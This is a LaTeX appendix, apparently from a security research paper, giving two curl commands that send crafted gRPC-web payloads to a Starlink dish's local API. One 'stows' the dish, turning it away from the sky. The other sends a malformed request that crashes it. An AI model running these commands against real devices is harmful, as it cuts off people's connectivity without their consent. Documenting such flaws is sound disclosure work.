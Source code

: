 \section{gRPC HTTP ``Stow'' Command}\label{app:stow}

The following shell script sends an HTTP POST request containing a gRPC command to ``stow'' the dish, turning it away from the sky.

\begin{lstlisting}
printf '\x00\x00\x00\x00\x03\x92}\x00' \
| curl 'http://192.168.100.1:9201/SpaceX.API.Device.Device/Handle' \
-X POST \
-H 'Accept: */*' \
-H 'Accept-Language: en-GB,en;q=0.5' \
-H 'content-type: application/grpc-web+proto' \
-H 'x-grpc-web: 1' \
--data-binary @- -v | xxd
\end{lstlisting}

\section{gRPC HTTP ``Kill'' Command}\label{app:kill}

The following shell script sends a malformed request, causing the dish to crash.

\begin{lstlisting}
printf '\x00\x00\x00\x00\x03\xea>\x00' \
| curl 'http://192.168.100.1:9201/SpaceX.API.Device.Device/Handle' \
-X POST \
-H 'Accept: */*' \
-H 'Accept-Language: en-GB,en;q=0.5' \
-H 'content-type: application/grpc-web+proto' \
-H 'x-grpc-web: 1' \
--data-binary @- -v | xxd
\end{lstlisting}